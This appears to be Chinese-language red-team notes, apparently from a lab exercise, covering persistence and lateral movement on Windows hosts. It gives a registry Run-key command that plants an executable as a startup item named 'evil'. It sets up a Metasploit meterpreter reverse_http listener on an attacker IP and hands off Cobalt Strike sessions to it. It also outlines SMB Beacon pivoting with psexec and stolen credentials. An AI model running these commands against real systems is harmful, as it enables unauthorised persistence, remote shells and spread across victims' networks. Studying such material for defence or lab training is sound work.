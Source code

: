 # 权限维持

>将C:/phpStudy/WWW/artifact.exe添加为注册表启动项：

`reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v evil /t REG_SZ /d "C:\phpStudy\WWW\artifact.exe" /f`

# 横向移动

* msf和cs联动

    ```s
     
    #msf开一个监听模式
    
    use multi/handler

    set payload windows/meterpreter/reverse_http

    set lhost 192.168.197.132

    set lport 9999

    run

    #cs新建listener，payload选foreign http，填kali的IP和端口

    #右键win7机器新开一个spawn，监听器选刚刚建的msf的

    choose之后msf就会建立连接

    ```

* smb

    对主机进行net view，选会话视图，用已有session新建一个spawn，新建listener，类型是Beacon SMB

    将其作为payload

    切换为targets视图，右键未拿下的机器，jump，用psexec使用凭证登录主机，开始监听

    切换图形化sessions界面，能看到主机上线了

    同理拿下最后一台机器

